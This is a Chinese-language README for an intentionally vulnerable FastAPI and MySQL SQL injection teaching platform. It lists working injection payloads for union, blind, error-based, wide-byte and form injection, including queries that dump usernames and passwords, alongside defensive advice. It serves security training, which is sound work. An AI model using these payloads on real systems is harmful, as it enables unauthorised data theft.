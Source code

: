 # SQL注入演示平台

## 项目介绍

本项目旨在帮助测试工程师学习和理解各种SQL注入攻击方式及其防护方法。通过FastAPI和MySQL构建，提供了多种常见SQL注入类型的演示，包括联合查询注入、布尔盲注、报错注入、时间盲注等。

## 安装与配置

### 1. 安装依赖

使用pip安装项目依赖：

```bash
pip install .
```

或者，以开发模式安装：

```bash
pip install -e .
```

### 2. 配置MySQL数据库

1. 确保已安装MySQL数据库
2. 创建数据库 `sqli_demo`
3. 修改 `config.yaml` 中的数据库连接配置：

```yaml
# 修改为你的MySQL配置
database:
  username: root
  password: password
  host: localhost
  port: 3306
  database: sqli_demo
```

### 3. 初始化数据库

启动项目时会自动创建表并插入测试数据：
- 用户表 (users)：包含3个测试用户
- 产品表 (products)：包含3个测试产品

## 启动项目

```bash
python main.py
```

项目将运行在 http://localhost:8000

## 使用方法

访问首页 http://localhost:8000 可以看到所有可用的注入演示。

![](./platform.png)

### 1. 联合查询注入

- **不安全版本**：http://localhost:8000/union_injection/1%20UNION%20SELECT%201,username,password%20FROM%20users--
- **安全版本**：http://localhost:8000/union_injection_safe/1

### 2. 布尔盲注

- 示例：http://localhost:8000/boolean_blind/ AND SUBSTRING(password,1,1)='a'

### 3. 报错注入

- 示例1：http://localhost:8000/error_injection/ AND (SELECT 1/0)
- 示例2：http://localhost:8000/error_injection/ AND extractvalue(1,concat(0x5c,(SELECT user())))

### 4. 时间盲注

- 示例1：http://localhost:8000/time_blind/3
- 示例2：http://localhost:8000/time_blind/IF(SUBSTRING(password,1,1)='a',3,0)

### 5. 表单注入

访问 http://localhost:8000/form_injection 页面，尝试以下注入：
- `' OR '1'='1`
- `' UNION SELECT 1,username,password,email FROM users--`
- `' AND extractvalue(1,concat(0x5c,(SELECT user())))--`

### 6. 宽字节注入

- 示例：http://localhost:8000/wide_byte_injection/%df' OR '1'='1

### 7. 堆叠查询注入

- 示例：http://localhost:8000/stacked_queries/SELECT 1

## 安全注意事项

1. 本项目仅用于学习和教学目的，请勿在生产环境中使用
2. 测试完成后，请立即关闭服务并删除测试数据库
3. 在实际开发中，应始终使用参数化查询和ORM框架来防止SQL注入
4. 定期更新和修补数据库和应用程序漏洞

## 防护措施

1. **使用参数化查询**：始终使用参数化查询或ORM框架，避免直接拼接SQL语句
2. **输入验证**：对所有用户输入进行严格验证和过滤
3. **最小权限原则**：数据库用户应只拥有必要的权限
4. **错误处理**：避免在错误信息中暴露敏感的数据库信息
5. **使用ORM框架**：如SQLAlchemy，可以自动防止SQL注入

## 参考资料

- [Web安全学习笔记 - SQL注入检测](https://websec.readthedocs.io/zh/latest/vuln/sql/fuzz.html)